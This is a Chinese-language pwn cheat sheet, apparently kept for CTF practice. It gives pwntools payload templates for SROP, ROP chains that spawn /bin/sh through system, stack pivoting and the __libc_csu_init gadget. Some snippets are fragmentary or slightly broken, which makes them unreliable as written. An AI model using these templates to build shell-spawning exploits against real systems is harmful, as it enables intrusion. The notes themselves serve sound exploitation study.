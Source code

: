 ## brop

http://www.scs.stanford.edu/brop/

## srop
```py
#seting architect
context.arch = "amd64"
# 设置寄存器
sigframe = SigreturnFrame()
sigframe.rax = 0x1
sigframe.rdi = 0x2
sigframe.rsi = 0x3
sigframe.rdx = 0x4
```
https://www.freebuf.com/articles/network/87447.html
https://blog.csdn.net/qq_29343201/article/details/72627439

## ROPgadget

1.  ROPgadget 得到代码片断
2.  cd80c3 就是 int0x80;ret,使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
3.  动态链接找不到 int 0x80,需要构造 rop
4.  `ROPgadget --binary {binary_name} --ropchain`可以直接生成 ROP chain，不过要转换一下

```py
rop = []
# i = 1
for line in open("ropc"):
    # print line,
    if "pack" in line and '+=' in line:
        print line
        # print i
        # print str(line).split(", ")[1].split(")")[0]
        rop.append(str(line).split(", ")[1].split(")")[0])
    if 'pack' not in line and '+=' in line:
        # print i
        # print line
        rop.append(str(line).split("+= ")[1][1:-2])
    # i += 1
i=0
while(i<len(rop)):
    if rop[i]=='/bin':
        rop[i]='0x6e69622f'
    if rop[i]=='//sh':
        rop[i]='0x68732f2f'
    i+=1
print(rop)
```

## one_gadget

https://github.com/david942j/one_gadget

直接从 glibc 里 getshell 的函数。

### 寄存器赋值

构造栈结构

```
  *(pop eax ;ret)
  3
```

将 eax 赋值为 3

### 栈转移
   
寻找 leave;ret;指令，然后更改 ebp 的值即可

```py
payload += p32(base_stage)
payload += p32(leave_ret)
#leave= mov esp,ebp,pop ebp
```

例子：将 esp 设置到 bss 段上

```py
payload = flat(
  [
  'A' * offset, # 覆盖到ret
  read_plt, # 读100个字节到base_stage
  ppp_ret, # pop esi ; pop edi ; pop ebp ; ret 清空参数
  0,
  base_stage,
  100,
  pop_ebp_ret, # 把base_stage pop到ebp中
  base_stage,
  leave_ret  #mov esp,ebp;pop ebp
  ]
)
cmd = "/bin/sh"
payload1= flat(
  [
    'A' *4 # 接payload1，ebp='AAAA'
    write_plt
    #...
  ]
)
```

## 通用技术

常用的栈布局如下

```py
# 32位
flat(
    [
    read_addr,
    system_addr,
    0, #read 函数一个参数 fd/system返回地址
    binsh_addr #read第二个参数/system第一个参数
    ]
)

flat([
        gets,
        system,
        buf,
        buf
        ])
# 64位
flat(
    [
        pop_edi,
        0, //read第一个参数 fd
        pop_rsi,
        binsh_addr, #read第二个参数 sh字符串地址
        pop_rdx,
        20,      #read第三个参数 长度
        read_addr,
        pop_rdi,
        binsh_addr,# system第一个参数
        system_addr,
    ]
)
```

## ret2libc

64 下通用 gadget,`__libc_csu_init`,一共两端代码，可以设置三个寄存器传参的值

```asm
;第一段代码gad1
  pop     rbx  ;必须为0
  pop     rbp  ;必须为1
  pop     r12  ;你call函数的地址(应该是got上的?)
  pop     r13  ;arg3
  pop     r14  ;arg2
  pop     r15  ;arg1
  retn         ;gad2
```

```asm
;第二段代码gad2
mov     rdx, r13
mov     rsi, r14
mov     edi, r15d
call    qword ptr [r12+rbx*8] call!!!
add     rbx, 1
cmp     rbx, rbp
jnz     short loc_400880
add     rsp, 8
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15 ;这个地方可以构造错位gadgets,恰好可以构造为pop rdi,ret
retn     ;构造一些垫板(7*8=56byte)，因为后面后面还有很多pop+rbp+ret
```
